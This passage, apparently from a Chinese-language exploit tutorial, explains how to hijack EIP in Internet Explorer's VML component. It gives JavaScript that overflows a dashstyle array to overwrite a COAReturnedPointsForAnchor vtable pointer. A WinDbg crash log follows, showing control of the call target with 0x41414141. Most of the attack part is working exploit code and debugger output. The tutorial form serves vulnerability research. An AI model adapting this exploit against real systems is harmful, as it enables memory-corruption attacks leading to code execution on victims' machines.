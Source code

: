 ### **劫持eip**

当读取_anchorRect属性时，内部会调用”vgx!COAShape::get__anchorRect()”，最终创建并返回一个0x10大小的COAReturnedPointsForAnchor对象。释放_anchorRec元素时，会调用虚表函数所以，我们可以通过与前面相同得布局方式，通过溢出修改COAReturnedPointsForAnchor对象的虚表指针，从而在释放该对象时获取程序控制权。

下面的代码用来测试，直接把exp的换掉，g运行就可以了。

	function exploit(){

			var vml1 = document.getElementById("vml1")

			for(var i = 0; i < 0x400; i++){

				a[i] = document.getElementById("rect" + i.toString())._anchorRect;

				if (i == 0x300){

				vml1.dashstyle = "1 2 3 4"; //与COAReturnedPointsForAnchor对象大小保持一致

			}
	
		}

	vml1.dashstyle.array.length = 0 - 1;

	vml1.dashstyle.array.item(6) = 0x41414141; //覆盖虚表指针

	for (var i=0; i<0x400; i++)

	{

		delete a[i];

		CollectGarbage();

	}

		alert("done");

	}

	0:005> g

	(714.e7c): Access violation - code c0000005 (first chance)

	First chance exceptions are reported before any exception handling.

	This exception may be expected and handled.

	eax=06cdb290 ebx=02525980 ecx=41414141 edx=0000008a esi=02525980 edi=00000009

	eip=75934974 esp=0320c818 ebp=0320c824 iopl=0 nv up ei pl nz na pe nc

	cs=0023 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010206

	OLEAUT32!VariantClear+0xb6:

	75934974 ff5108 call dword ptr [ecx+8] ds:002b:41414149=????????

可以看到ecx是由前面的[eax]传递的，传递的正是我们前面的exp中写的覆写虚表指针。

	75934971 8b08 mov ecx,dword ptr [eax]
